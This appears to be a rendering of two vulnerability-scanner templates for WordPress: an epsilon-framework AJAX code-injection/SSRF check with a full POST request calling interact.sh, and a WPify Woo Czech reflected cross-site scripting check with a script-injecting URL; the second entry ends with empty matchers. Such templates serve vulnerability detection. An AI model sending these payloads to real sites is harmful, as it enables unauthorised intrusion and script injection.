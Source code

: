 # WordPress Themes - Code Injection
## Description
- Fifteen WordPress themes are susceptible to code injection using a version of epsilon-framework, due to lack of capability and CSRF nonce checks in AJAX actions.
- severity - high
- tags - wordpress,rce,ssrf,edb,wpscan
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php?action=action_name HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=epsilon_framework_ajax_action&args%5Baction%5D%5B%5D=Requests&args%5Baction%5D%5B%5D=request_multiple&args%5Bargs%5D%5B0%5D%5Burl%5D=http://interact.sh

```
### Matchers

**Type - word**
- part - body
- words
    1. Interactsh Server
    2. protocol_version

**Type - status**
- status
    1. 200

---
# WordPress WPify Woo Czech \<3.5.7 - Cross-Site Scripting
## Description
- WordPress WPify Woo Czech plugin before 3.5.7 contains a cross-site scripting vulnerability. The plugin uses the Vies library 2.2.0, which has a sample file outputting $_SERVER['PHP_SELF'] in an attribute without being escaped first. The issue is only exploitable when the web server has the PDO driver installed and write access to the example directory.
- severity - high
- tags - wp,wordpress,xss,wp-plugin,wpify,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/wpify-woo/deps/dragonbe/vies/examples/async_processing/queue.php/">\<script>alert(document.domain)\</script>
### Matchers
